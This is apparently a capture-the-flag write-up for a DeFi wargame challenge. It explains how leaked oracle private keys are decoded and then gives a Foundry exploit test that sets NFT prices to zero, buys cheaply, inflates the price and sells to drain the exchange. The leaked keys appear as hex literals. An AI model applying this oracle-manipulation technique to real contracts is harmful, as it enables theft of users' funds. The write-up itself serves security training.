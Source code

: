 ## Compromised solution

The strange response from a web service we got is actually a leaked private key data. Once we decode the hex data to get actual private keys, we can manipulate the prices of NFTs via `postPrice` function in `TrustfulOracle` contract. All we need to do is to set the prices to zero, buy an NFT for extremely low price like 0.1 ether, update the prices to exchange balance and sell our NFT, draining the exchange.

```
    function testExploit() public {
        address exploitedOracle1 = vm.addr(
            0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
        );
        address exploitedOracle2 = vm.addr(
            0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
        );

        vm.prank(address(exploitedOracle1));
        trustfulOracle.postPrice("DVNFT", 0);

        vm.prank(address(exploitedOracle2));
        trustfulOracle.postPrice("DVNFT", 0);

        vm.prank(attacker);
        exchange.buyOne{value: 0.1 ether}();

        vm.prank(address(exploitedOracle1));
        trustfulOracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);

        vm.prank(address(exploitedOracle2));
        trustfulOracle.postPrice("DVNFT", EXCHANGE_INITIAL_ETH_BALANCE);

        vm.startPrank(attacker);
        nft.approve(address(exchange), 0);
        exchange.sellOne(0);
        vm.stopPrank();

        vm.prank(address(exploitedOracle1));
        trustfulOracle.postPrice("DVNFT", INITIAL_NFT_PRICE);

        vm.prank(address(exploitedOracle2));
        trustfulOracle.postPrice("DVNFT", INITIAL_NFT_PRICE);
        validation();
    }
```